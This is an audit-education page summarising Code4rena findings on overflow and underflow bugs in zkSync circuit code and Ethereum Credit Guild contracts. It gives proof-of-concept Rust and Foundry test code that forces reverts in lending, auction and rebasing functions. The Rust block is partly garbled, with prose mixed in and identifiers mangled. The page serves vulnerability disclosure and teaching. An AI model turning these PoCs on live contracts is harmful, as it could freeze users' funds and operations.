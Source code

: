# ETAAcademy-Adudit: 2. Under/Overflow

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Under/Overflow</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>under/overflow</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Reduction gate in binop operation is unsafe

### Lack of overflow check

- Summary: This method converts a constraint system variable (representing a value in the prime field) directly into a **`UInt8`** value without performing any overflow checks.

- Impact & Recommendation: This means that if the original value exceeds the range of **`UInt8`** (0 to 255), an attacker could inject unexpected or malicious behavior into the circuit by manipulating the overflowed **`xor_result`**.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#h-05-reduction-gate-in-binop-operation-is-unsafe) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

    let mut composite_result = [Variable::placeholder(); 32];
    for ((a, b), dst) in a.iter().zip(b.iter()).zip(composite_result.iter_mut()) {
        let [result] = cs.perform_lookup::<2, 1>(table_id, &[a.get_variable(), b.get_variable()]);
        *dst = result;
    }

    At first, we perform a lookup to get the composite result for and, or and xor.


    for (src, decomposition) in composite_result.iter().zip(all_results.array_chunks::<3>()) {
        if cs.gate_is_allowed::<ReductionGate<F, 4>>() {
            let mut gate = ReductionGate::<F, 4>::empty();
            gate.params = ReductionGateParams {
                reduction_constants: [F::SHIFTS[0], F::SHIFTS[16], F::SHIFTS[32], F::ZERO],
            };
            gate.reduction_result = *src;
            gate.terms = [
                decomposition[0],
                decomposition[1],
                decomposition[2],
                zero_var,
            ];
            gate.add_to_cs(cs);
        }


    for (((and, or), xor), src) in and_results
    .iter_mut()
    .zip(or_results.iter_mut())
    .zip(xor_results.iter_mut())
    .zip(all_results.array_chunks::<3>())
    {
    *and = src[0];
    *or = src[1];
    \*xor = src[2];
    }
    let and_results = and_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let or_results = or_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    let xor_results = xor_results.map(|el| unsafe { UInt8::from_variable_unchecked(el) });
    Finally, we get three separate results from all_results.



    for source*set in all_results.array_chunks::<3>() {
    // value is irrelevant, it's just a range check
    let *: [Variable; 1] = cs.perform_lookup::<2, 1>(table_id, &[source_set[0], source_set[1]]);
    }


  ```

</details>

## 2.[Medium] TotalBorrowedCredit can revert, breaking gauges.

### CreditMultiplier affect totalBorrowedCredit

- Summary: Changes in the creditMultiplier can cause issues in the totalBorrowedCredit function, potentially leading to reverting due to underflow. This affects debt ceiling calculations and can break borrow operations, impacting functionality.

- Impact & Recommendation: To prevent failures, either cap totalBorrowedCredit at 0 or track total tokens minted and burned by the PSM module to remove dependence on creditMultiplier.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-03-totalborrowedcredit-can-revert-breaking-gauges) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackRevert() public {
    // grant roles to test contract
    vm.startPrank(governor);
    core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
    core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
    vm.stopPrank();
    emit log_named_uint('TBC 1', profitManager.totalBorrowedCredit());
    // psm mint 100 CREDIT
    pegToken.mint(address(this), 100e6);
    pegToken.approve(address(psm), 100e6);
    psm.mint(address(this), 100e6);
    emit log_named_uint('TBC 2', profitManager.totalBorrowedCredit());
    // apply a loss
    // 50 CREDIT of loans completely default (50 USD loss)
    profitManager.notifyPnL(address(this), -50e18);
    emit log_named_uint('TBC 3', profitManager.totalBorrowedCredit());
    // burn tokens to throw off the ratio
    credit.burn(70e18);
    vm.expectRevert();
    emit log_named_uint('TBC 4', profitManager.totalBorrowedCredit());
    }


  ```

  </details>

## 2.[Medium] PnL system can be broken by large users intentionally or unintentionally.

### CreditMultiplier affected by `creditTotalSupply - loss < 0`

- Summary: The notifyPnL function in ProfitManager.sol calculates the credit multiplier based on creditTotalSupply minus loss. If the loss exceeds creditTotalSupply, it causes a revert, breaking gauge slashing and voting systems.

- Impact & Recommendation: Excessive losses cause gauge vote slashing, decrease the creditMultiplier, and disrupt the auction process. If the loss exceeds creditTotalSupply, setting the creditMultiplier to 0 prevents system breakdown.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-04-pnl-system-can-be-broken-by-large-users-intentionally-or-unintentionally) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testAttackBid() public {
    bytes32 loanId = _setupAndCallLoan();
    uint256 PHASE_1_DURATION = auctionHouse.midPoint();
    uint256 PHASE_2_DURATION = auctionHouse.auctionDuration() - auctionHouse.midPoint();
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + PHASE_1_DURATION + (PHASE_2_DURATION * 2) / 3);
    // At this time, get full collateral, repay half debt
    (uint256 collateralReceived, uint256 creditAsked) = auctionHouse.getBidDetail(loanId);
    emit log_named_uint('collateralReceived', collateralReceived);
    emit log_named_uint('creditAsked', creditAsked);
    vm.startPrank(borrower);
    credit.burn(20_000e18);
    vm.stopPrank();
    // bid
    credit.mint(bidder, creditAsked);
    vm.startPrank(bidder);
    credit.approve(address(term), creditAsked);
    vm.expectRevert();
    auctionHouse.bid(loanId);
    vm.stopPrank();
    }

  ```

  </details>

## 3.[Medium] Rounding errors can cause ERC20RebaseDistributor transfers and mints to fail for underflow

### Underflow by rounding errors

- Summary: Rounding issues in ERC20RebaseDistributor can cause transfers to fail if there's a discrepancy in share calculations. This can be exploited to disrupt operations like liquidations, as affected addresses cannot exit rebase to fix transfers.

- Impact & Recommendation: Transfers and mints involving rebasing addresses may fail. To fix this, consider adjusting share calculations to tolerate rounding fluctuations, like flooring the relevant subtractions to 0.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-23-rounding-errors-can-cause-erc20rebasedistributor-transfers-and-mints-to-fail-for-underflow) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testM2bis() external {
        uint t0 = block.timestamp;
        // set up the credit token with the minimum 100e18 rebasing supply
        // as indicated here ->

        ct.mint(address(1), 100e18);
        vm.prank(address(1));
        ct.enterRebase();

        ct.mint(address(2), 6e11); vm.prank(address(2)); ct.distribute(6e11);
        vm.warp(2);
        ct.mint(address(2), 3e12); vm.prank(address(2)); ct.distribute(3e12);
        vm.warp(3);

        ct.mint(address(3), 1e20);
        vm.prank(address(3));
        // ☢️ this shouldn't revert!
        vm.expectRevert();
        ct.transfer(address(1), 1e20);
        // ☢️ this shouldn't either!
        vm.expectRevert();
        ct.mint(address(1), 1e20);
        // ☢️ this too..
        vm.prank(address(1));
        vm.expectRevert();
        ct.exitRebase();
        // ☢️ same here...
        vm.startPrank(address(1));
        vm.expectRevert();
        ct.transfer(address(3), 1e20);
        // ☢️ I bet you saw this coming...
        ct.approve(address(3), 1e20);
        vm.startPrank(address(3));
        vm.expectRevert();
        ct.transferFrom(address(1), address(3), 1e20);
    }

  ```

  </details>

